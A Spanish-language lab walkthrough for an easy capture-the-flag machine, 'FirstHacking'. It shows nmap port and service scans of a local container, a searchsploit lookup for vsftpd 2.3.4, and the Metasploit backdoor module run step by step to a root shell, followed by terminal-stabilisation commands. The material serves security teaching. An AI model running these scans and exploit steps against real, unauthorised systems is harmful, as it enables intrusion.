 # FirstHacking (muy fácil)


## Escaneo de puertos

Empezamos escaneando la máquina víctima con **nmap** para ver los puertos que tenga abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```
Aquí está el desglose de cada opción:

* ``nmap`` → Es la herramienta que realiza el escaneo de puertos y redes.

* ``-p-`` → Escanea todos los puertos (0-65535).

* ``--open`` → Muestra solo los puertos que están abiertos.

* ``-sT`` → Realiza un escaneo de conexión TCP completa (TCP Connect Scan). Es más lento que el SYN scan (-sS), pero no requiere privilegios de root.

* ``--min-rate 5000`` → Exige que el escaneo se realice con una tasa mínima de 5000 paquetes por segundo, acelerando el proceso.

* ``-vvv`` → Muestra un nivel de detalle muy alto en la salida (modo verbose máximo).

* ``-n`` → No resuelve nombres de dominio (evita consultas DNS).

* ``-Pn`` → No realiza detección de host, asumiendo que el objetivo está activo.

* ``172.17.0.2`` → La dirección IP del objetivo a escanear.

* ``-oG allPorts`` → Guarda la salida en un archivo de texto llamado *allPorts*. **(OPCIONAL)**

![resultado del comando](../assets/firsthacking/nmap1.png)

Como puedes ver, solo está abierto el puerto **ftp**. Vamos a escanearlo otra vez con **nmap**, pero esta vez utilizando un conjunto de scripts predeterminado para obtener más información.

```shell
nmap -sCV -p21 172.17.0.2 -oN targeted
```
Aquí está el desglose de cada opción:

* ``nmap`` → Es la herramienta que realiza el escaneo de puertos y redes.

* ``-sC`` → Ejecuta los scripts de detección predeterminados de **nmap** (--script=default). Estos incluyen comprobaciones de vulnerabilidades, autenticación anónima en FTP, etc.

* ``-sV`` → Detecta versiones de los servicios en ejecución en los puertos abiertos.

* ``-p21`` → Escanea únicamente el puerto 21 (FTP).

* ``172.17.0.2`` → La dirección IP del objetivo a escanear.

* ``-oN targeted`` → Guarda la salida en un archivo de texto llamado *targeted*. **(OPCIONAL)**

![resultado del comando](../assets/firsthacking/nmap2.png)

Una vez tenemos claro cuales son los puertos vulnerables, pasamos a la acción.
***

## Ataque

De acuerdo a la información obtenida con **nmap**, sabemos que la víctima tiene el puerto **ftp** abierto y que está en la versión **2.3.4**.

Empezamos buscando un **exploit** en [ExploitDB](https://www.exploit-db.com/). Para ello, utilizamos el comando ``searchsploit``.

```shell
searchsploit vsftpd 2.3.4
```

![resultado del comando](../assets/firsthacking/searchsploit.png)

¡Parece que a dado resultado! Vemos que hay dos coincidencias.
En realidad, las dos son el mismo exploit, solo que uno está alojado en [Metasploit](https://www.metasploit.com/).

En esta práctica utilizaremos la segunda opción, ya que no hace falta que descarguemos nada.
Para ello, tendremos que abrir primero la consola de **Metasploit**.

```shell
msfconsole
```

![resultado del comando](../assets/firsthacking/msfconsole.png)

> Nota: puedes utilizar ``msfconsole -q`` para iniciar en modo silencioso (que no aparezcan mensajes).

Una vez dentro, volvemos a buscar el exploit.

```shell
search vsftpd 2.3.4
```


![resultado del comando](../assets/firsthacking/search.png)

Vemos que aparece como la opción 0, por lo que utilizamos el siguiente comando para usarlo.

```shell
use 0
```

Pero aparece un error...

![resultado del comando](../assets/firsthacking/use.png)

Vamos a ver el porqué. Para ello utilizamos la opción ``info`` para ver la descripción del exploit.

```shell
info 0
```

Verás que aparecen muchas líneas con información, pero nos centraremos en ***Basic options***.

![resultado del comando](../assets/firsthacking/info.png)

¡Claro, nos falta especificar la IP de la víctima!
> Nota: verás que también aparece una variable para establecer el puerto del objetivo, pero en este caso no es necesario, ya que el predeterminado (21) nos sirve.

Utilizando ``set`` podemos darle un valor a las variables que utilicen los exploits.

```shell
set RHOSTS 172.17.0.2
```

Para volver a iniciar el exploit ya solamente hace falta escribir ``exploit``.

```shell
exploit
```

![resultado del comando](../assets/firsthacking/exploit.png)

***

## Extra

Te habrás dado cuenta que al estar en la shell, la terminal aparece "vacía". Esto se debe a que necesita tratamiento. Para ello, ejecuta los siguientes comandos:

```shell
script /dev/null -c bash
stty raw -echo
reset xterm
export TERM=xterm
export SHELL=/bin/bash
```

¡Y ya estaría! Si haces ``whoami`` podrás ver como eres **root** :).
